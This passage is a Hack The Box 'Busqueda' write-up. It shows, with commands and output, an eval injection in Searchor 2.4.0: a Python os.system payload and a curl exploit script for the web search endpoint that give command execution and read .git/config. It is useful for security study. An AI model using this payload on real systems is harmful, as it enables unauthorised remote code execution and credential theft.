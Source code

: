 This commit is included to v2.4.2 so this Web Application is `eval` vulnerable.
[Vulnerable code](https://github.com/ArjunSharda/Searchor/blob/v2.4.0/src/searchor/main.py#L32-L34) is in `searcher/src/main.py` and used in CLI.

I will test it in kali.

```console
root@kali:~/htb/Machines/Busqueda# virtualenv venv
(snip)

root@kali:~/htb/Machines/Busqueda# . ./venv/bin/activate

(venv)root@kali:~/htb/Machines/Busqueda# pip install searchor==2.4.0

(venv)root@kali:~/htb/Machines/Busqueda# searchor search Google "')#"  # no error
https://www.google.com/search?q=

(venv)root@kali:~/htb/Machines/Busqueda# # Because eval must be evaluated as an expression, it is not possible to execute multiple lines with ;
(venv)root@kali:~/htb/Machines/Busqueda# searchor search Google "'); 1#"
Traceback (most recent call last):
(snip)
    Engine.Google.search(''); 1#', copy_url=False, open_web=False)
                            ^
SyntaxError: invalid syntax

(venv)root@kali:~/htb/Machines/Busqueda# # success Arbitrary Command Execution
(venv)root@kali:~/htb/Machines/Busqueda# searchor search Google "') and eval(\"__import__(\'os\').system(\'id\')\")#"
uid=0(root) gid=0(root) groups=0(root)
0
```

So I will adjust the encoding so that the same code is executed when entered from the web.

```shell
# exploit.sh
#!/bin/bash

cmd=${1:-id}
curl -s --data-urlencode engine=Google --data-urlencode "query=') and eval(\"__import__('os').system('${cmd}')\")#" http://searcher.htb/search
```

```console
(venv)root@kali:~/htb/Machines/Busqueda# ./exploit.sh
uid=1000(svc) gid=1000(svc) groups=1000(svc)
0
```

Got Arbitrary Code Execution.

```console
root@kali:~/htb/Machines/Busqueda# ./exploit.sh 'ls -la'
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1  2022 app.py
drwxr-xr-x 8 www-data www-data 4096 Aug  5 04:07 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 templates
0

root@kali:~/htb/Machines/Busqueda# ./exploit.sh 'cat .git/config'
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
```